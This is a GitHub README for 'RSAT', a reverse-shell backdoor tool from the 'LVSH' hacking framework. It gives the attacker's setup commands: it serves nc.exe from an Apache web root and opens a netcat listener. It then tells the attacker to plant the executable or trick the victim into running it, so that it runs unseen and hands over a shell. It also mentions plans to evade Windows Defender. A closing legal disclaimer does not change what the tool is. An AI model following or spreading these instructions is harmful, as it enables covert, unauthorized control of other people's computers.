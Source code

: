 # RSAT
**Reverse Shell Attacking Terminal(RSAT)** is an executable application which can be used to remotely access _a target computer_ from the _attackers computer_ using a service named as **netcat**. **RSAT** is currentely only available to **linux based computers and windows based computers.** Essentially, **RSAT has simply automated the netcat service and made it applicable to** _the backdoor of the target system_so that the user does not know. **RSAT** is a part of the LVSH project which is a hacking framwork  under development. The user must read the full README.md before using the program for smooth and appropriate use.


![LVSH](https://github.com/LostOliie/rsat/assets/137381675/2faf2eb4-894c-44fe-8d30-6fffbed08c10)


# How does it work?
The attackers computer has to be  _a linux based computer(recommended kali linux)_ the attacking computer shall have netcat installed,

The attacker shall execute **the following commands in their terminal:**

    sudo cp /usr/share/windows-resources/binaries/nc.exe /var/www/html/nc.exe
    sudo systemctl start apache2.service
    nc -nlvp 1234

These commands **start a server and start listening on ** a port named _1234_, the output of these commands should be like so:

      listening on [any] 1234 ...

After doing so, the attacker must simply implant or send the target the **LVSH RSAT** executable into the target computer, then the hacker shall make the target execute it using social engineering **skills or the hacker can execute the .exe file ** when he _implants the file _.

After this the target computer will **not be seeing anything and the ** _program will run infinitly unless the system is restarted or turned off_.

Then the attackers computer will have access to the **target computers shell which the attacker can use to access the device :-)**

**NOTE: THE TARGET COMPUTER HAS TO HAVE WINDOWS DEFENDER DISABLED, THE LVSH PROJECT IS WORKING ON BYPASSING THIS IN THE NEXT VERSION., THE COMMANDS FOR THE ATTACKER ARE LINUX BASED ONLY WHILE THE COMMANDS OF THE TARGET ARE WIN BASED ONLY.*

# Terms & Conditions

Disclaimer: Legal and Responsible Use Statement

The following statement serves as a disclaimer to emphasize the importance of using any program, tool, or software for lawful and ethical purposes only. We strongly discourage and condemn the use of our program for illegal hacking activities or any malicious intent. By using this program, you agree to the terms and conditions outlined below:

Lawful Use: You acknowledge that the program provided is intended solely for legal and ethical purposes. You agree to utilize the program in accordance with local, national, and international laws, regulations, and guidelines.

Prohibited Activities: You agree not to engage in any activities that are illegal, unethical, or harmful to others. This includes, but is not limited to, unauthorized access to computer systems, data breaches, identity theft, malicious attacks, or any actions that compromise the security and privacy of individuals or organizations.

Personal Responsibility: You accept full responsibility for your actions and the consequences that may arise from using the program. You understand that any misuse or illegal activity associated with this program may result in legal penalties, including but not limited to civil and criminal liability.

No Endorsement: The program provider does not endorse or support any illegal or malicious use of the program. We strictly promote ethical conduct, lawful practices, and respect for privacy and security.

Educational and Research Purposes: This program may be used for educational and research purposes to enhance knowledge, improve cybersecurity practices, and promote responsible technology use. However, it should be used solely in controlled environments with appropriate permissions and consents.

Ethical Guidelines: We encourage users to follow established ethical guidelines and respect the rights, privacy, and security of others. Use the program to enhance your understanding, contribute positively to the field, and protect digital ecosystems.

No Warranty: The program is provided "as is" without any warranties, express or implied. The program provider shall not be held responsible for any damages, losses, or liabilities incurred by the user or any third party as a result of using the program.

By using this program, you acknowledge that you have read and understood this disclaimer and agree to abide by its terms and conditions. You further understand that violation of this disclaimer may result in the termination of your access to the program and potential legal consequences.

Remember, technology should be used responsibly, ethically, and legally to ensure a safe and secure digital environment for all. 



    PS: **PROGRAM MADE BY LVSH PROJECT AKA LOSTOLIIE **
